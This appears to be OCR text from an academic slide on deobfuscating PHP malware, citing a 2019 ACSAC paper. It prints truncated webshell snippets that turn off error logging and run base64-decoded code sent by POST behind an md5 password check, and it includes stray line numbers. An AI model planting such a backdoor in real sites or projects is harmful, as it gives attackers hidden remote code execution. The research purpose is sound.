

# Server-side (PHP) malware
<?php
error_reporting(0); @ini_set('error_log',NULL);
@ini_set('log_errors',0); @ini_set('display_errors','Off'); if(md5($_POST["pf"]) === "...")
  eval(base64_decode($_POST["..."]));
...
if($patchedfv === "..." ) {
  @ob_end_clean();  die;
}
eval(base64_decode("JHVFUkN6ID0gJys9IFpYUy4uLj...ka0N4dE9KT2prcigpOyA="));
@ini_restore('error_log');
@ini_restore('display_errors');
...
<?php
error_reporting(0); @ini_set('error_log',NULL);
@ini_set('log_errors',0); @ini_set('display_errors','Off'); if(md5($_POST["pf"]) === "...")
  eval(base64_decode($_POST["..."]));
...
if($patchedfv === "..." ) {
  @ob_end_clean();  die;
}
$uERCz = '+= ZXS...>68,Q;';
$kCxtOJOjkr = $uERCz('', '8ZfCK<:.> ==72-XE08...RA715e<Ei>Z5M83fSbQ:O');
$kCxtOJOjkr(); @ini_restore('error_log');
@ini_restore('display_errors');
...
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
40
41
42
43
44
45
46
47
48
49
40
41
42

43
44
45
46
<?php
error_reporting(0); @ini_set('error_log',NULL);
@ini_set('log_errors',0); @ini_set('display_errors','Off'); @eval(base64_decode(' aWYobWQ1KCRfUE9TVFsicGYiXSkgPT09ICIuLi...DQ4YzJOeWFYQi4uLkwySnZaSGsrUEM5b2RHMXNQZzBLIikpOw=='));
@ini_restore('error_log');
@ini_restore('display_errors');
...
1
2
3
4
5
6

7
8
9

(a) Normalized Program
(b) Deobfuscated Program 1
(c) Deobfuscated Program 2
CUBISMO, 2019
PHP Malware and Its Multiple Aspects,
Deobfuscation in PHP,
ACSAC’19
3